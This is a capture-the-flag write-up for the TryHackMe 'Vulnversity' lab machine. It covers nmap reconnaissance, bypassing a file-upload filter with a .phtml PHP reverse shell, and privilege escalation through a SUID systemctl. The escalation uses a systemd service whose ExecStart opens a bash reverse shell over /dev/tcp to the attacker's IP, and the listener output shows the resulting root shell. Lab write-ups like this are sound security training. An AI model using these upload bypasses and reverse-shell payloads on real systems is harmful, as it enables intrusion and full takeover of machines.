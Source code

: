 # Vuln University

[Play](https://tryhackme.com/room/vulnversity)

## Task 1 - Deploy the machine
ezpz

## Task 2 - Recon

classic nmap scan
```
❯ nmap -sC -sV -A 10.10.197.89
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 21:43 EST
Nmap scan report for 10.10.197.89
Host is up (0.18s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-03-07T21:43:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-08T02:43:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.10 seconds
```

### Scan the box, how many ports are open?
`6`

### What version of the squid proxy is running on the machine?
`3.5.12`

### How many ports will nmap scan if the flag -p-400 was used?
`400`
(bruh)

### Using the nmap flag -n what will it not resolve?
`dns`

### What is the most likely operating system this machine is running?
`ubuntu`

### What port is the web server running on?
`3333`

### Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)
ok

## Task 3 - Locating directories using gobuster
(have not included the gobuster scan results, since its pretty basic)

### What is the directory that has an upload form page?
`/internal/`

## Task 4 - Compromise the webserver
We see the option to upload the files. The default way to try and upload the `phpreverseshell.php` files, but apparently `.php` is not allowed. 

At this point, the room suggests using burpsuite to intercept the requests, and try out different php extensions. However, its more simple to just do it by hand :D

### Run this attack, what extension is allowed?
`phtml`

Once you have the `phprevshell.phtml` uploaded, go to `/include/uploads/phprevshell.phtml` and setup netcat in parallel. Once you get in, get a proper shell by doing `python3 -c "import pty; pty.spawn('/bin/bash')`. For the next question, just do `cat /etc/passwd`.

### What is the name of the user who manages the webserver?
`bill`

### What is the user flag?
{hmmmmmmmmmmmmmmmmmmmmmmmm}

## Task 5 - Priviledge Escalation

> In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

> For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Using the command `find`, we get:

### On the system, search for all SUID files. What file stands out?
`/bin/systemctl`

### Become root and get the last flag (/root/root.txt)

For this privesc, I followed [Alvin Smith's Privilege Escalation](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

Here are the steps:
1. create a `root.service` file on your machine with the details
```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.150.214/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

2. Using the upload option in the `/internal/` directory of the website, upload this file. It'll throw and error of the extension as not permitted. Change `root.service` to `root.phtml` (why?) and you should be good to go.
3. In the target machine, just rename the file again.
4. Instead of 2, 3, you can also use `nc` or any other methods you prefer.
5. Run `/bin/systemctl enable /var/www/html/internal/uploads/root.service`
6. Start `nc` on your machine, on the port you set in the `root.service` file in step  1 (9999 here)
7. Run `/bin/systemctl start root.service`
8. PWN


```
www-data@vulnuniversity:/var/www/html/internal/uploads$ cat root.service
cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.150.214/9999 0>&1'

[Install]
WantedBy=multi-user.target
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl enable /var/www/html/internal/uploads/root.service
<s$ /bin/systemctl enable /var/www/html/internal/uploads/root.service        
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/www/html/internal/uploads/root.service.
Created symlink from /etc/systemd/system/root.service to /var/www/html/internal/uploads/root.service.
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl start root.service
<r/www/html/internal/uploads$ /bin/systemctl start root.service 
```


```
❯ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.185.229] 43756
bash: cannot set terminal process group (1792): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/# cd /root
cd /root
root@vulnuniversity:~# ls
ls
root.txt
root@vulnuniversity:~# cat root.txt
cat root.txt
{hell yeah}
root@vulnuniversity:~# 
```
